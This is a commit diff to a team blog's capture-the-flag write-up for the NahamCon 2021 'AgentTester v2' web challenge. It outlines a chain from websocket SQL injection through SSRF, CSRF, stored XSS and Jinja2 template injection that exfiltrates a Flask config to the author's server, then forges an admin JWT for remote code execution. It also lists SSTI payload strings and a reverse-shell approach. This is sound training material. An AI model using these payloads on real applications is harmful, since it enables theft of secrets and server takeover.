

Before and after one commit to thegoonies/thegoonies.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide and 900 px high. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; the list of posts is cut into pages by our own code.

Commit message:
Update 2021-03-15-nahamconctf-2021-agent-tester-v2.md

````diff
--- a/_posts/2021-03-15-nahamconctf-2021-agent-tester-v2.md
+++ b/_posts/2021-03-15-nahamconctf-2021-agent-tester-v2.md
@@ -10,21 +10,19 @@
  * Type: Web
  * Points: 500 pts
  * Description:
+ > The new developer we hired did a bad job and we got pwned. We hired someone else to fix the issue.
+ >
+ > Author: @jorgectf#3896
+ >
+ > Source: https://ctf.nahamcon.com/files/354c72ad810a5c9e05c55bc3c6cb6e35/agenttesterV2.zip or [mirror](https://github.com/sajjadium/CTFium/)
 
-> The new developer we hired did a bad job and we got pwned. We hired someone else to fix the issue.
-> Author: @jorgectf#3896
-> Source: https://ctf.nahamcon.com/files/354c72ad810a5c9e05c55bc3c6cb6e35/agenttesterV2.zip
-
-The challenge
-=============
-
-Union SQLi via websocket to SSRF bot to my own site hosting a CSRF to make bot update its profile with a PXSS in the `about` field which exploits a Jinja2 SSTI to exfil the Flask config back to my own server, then forge admin JWT using `SECRET_KEY` and gain RCE through the SSTI.
+Union SQLi via websocket to SSRF bot to my own site hosting a CSRF to make bot update its profile with a PXSS in the `about` field. The XSS exploits a Jinja2 SSTI on `/debug` and exfils the Flask config back to my own server. Forge admin JWT using `SECRET_KEY` and exploit SSTI directly to gain RCE.
 
 Surprisingly my solution was unintended, see the author's [write up](https://github.com/jorgectf/Created-CTF-Challenges/tree/main/challenges/AgentTester%20@%20NahamConCTF%202021) for the intended solution.
 
 <!--more-->
 
-The first version of `AgentTester` had an unintended solution so the author released a second version where we could no longer retrieve the admin plain password via the union SQLi (user passwords are now hashed with bcrypt).
+The first version of `AgentTester` had an unintended solution so the author released a second version where we could no longer retrieve the admin plain password via the union SQLi (user passwords now hashed with bcrypt).
 
 Route `/req` is vuln to sqli via websocket. Make bot visit our site via union query.
 ```
@@ -32,7 +30,7 @@
 <- To Client: Testing User-Agent: Woot in url: http://me.com/
 ```
 
-I used the below `index.html` to CSRF the bot. The response to the `POST /profile/1` request then includes the XSS which exfils the Flask config via the `/debug` endpoint.
+I used the below `index.html` to CSRF the bot. The response to the `POST /profile/1` request then includes the XSS which exfils the Flask config.
 <!-- {% raw %} -->
 ```html
 <!DOCTYPE html>
@@ -63,7 +62,7 @@
 ```
 
 Decode the Flask config.
-```js
+```conf
 <Config {'ENV': 'production', 'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SECRET_KEY': '1L5&wqXM+kz5nIh4!Rz6Ufo^iY?aRyV2', 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(days=31), 'USE_X_SENDFILE': False, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'auth2', 'SESSION_COOKIE_DOMAIN': False, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': True, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(seconds=43200), 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'JSON_AS_ASCII': True, 'JSON_SORT_KEYS': True, 'JSONIFY_PRETTYPRINT_REGULAR': False, 'JSONIFY_MIMETYPE': 'application/json', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093, 'SQLALCHEMY_DATABASE_URI': 'sqlite:///DB/db.sqlite', 'SQLALCHEMY_TRACK_MODIFICATIONS': False, 'SQLALCHEMY_BINDS': None, 'SQLALCHEMY_NATIVE_UNICODE': None, 'SQLALCHEMY_ECHO': False, 'SQLALCHEMY_RECORD_QUERIES': None, 'SQLALCHEMY_POOL_SIZE': None, 'SQLALCHEMY_POOL_TIMEOUT': None, 'SQLALCHEMY_POOL_RECYCLE': None, 'SQLALCHEMY_MAX_OVERFLOW': None, 'SQLALCHEMY_COMMIT_ON_TEARDOWN': False, 'SQLALCHEMY_ENGINE_OPTIONS': {}}>
 ```
 
@@ -159,7 +158,9 @@
 
 Flag: `CHALLENGE_FLAG=flag{6daf77ca9478a1be670acd4547f4976a}`
 
-Alternative solutions AFAIK:
-* CSRF bot to POST to `/debug` and get a reverse shell via the SSTI, see [this poc](https://discord.com/channels/598608711186907146/820748103657193472/820756728055726142) by `@BronyUraj#6953`
-* Simplify the XSS to just exfil the flag using {%raw%}`code={{environ}}`{%endraw%} because of this line `app.jinja_env.globals.update(environ=os.environ.get)` in `app/backend/backend.py`
-* Use another challenge on the `challenge.nahamcon.com` domain to host a PHP script, and SSRF puppeteer via union sqli to net the `auth2` admin cookie. This works because the puppeteer cookie is set with `domain: challenge.nahamcon.com` in `app/browser/browser.js`
+Alternative solutions seen on Discord:
+* CSRF bot to POST to `/debug` and get a reverse shell via SSTI (e.g. using [this code](https://discord.com/channels/598608711186907146/820748103657193472/820756728055726142) by `@BronyUraj#6953`)
+* Simplify the XSS to just exfil the flag using {%raw%}`code={{environ("CHALLENGE_FLAG")}}`{%endraw%} because of this line `app.jinja_env.globals.update(environ=os.environ.get)` in `app/backend/backend.py` (thx to `Gnarf#3685` and the author `@congon4tor#2334` for pointing it out). Otherwise just use `config.__class__.__init__.__globals__['os'].environ`
+* Use another challenge on the `challenge.nahamcon.com` domain to host a PHP script, and SSRF bot via union sqli to net the `auth2` admin cookie. This works because the puppeteer cookie is set with `domain: challenge.nahamcon.com` in `app/browser/browser.js` (credits to `@liath#3287` for this sneaky [solution](https://discord.com/channels/598608711186907146/820748103657193472/820764258480422952))
+
+[@lanjelot](https://twitter.com/lanjelot)
````
Also changed, not shown: other parts of _posts/2021-03-15-nahamconctf-2021-agent-tester-v2.md (+1 -0 lines).
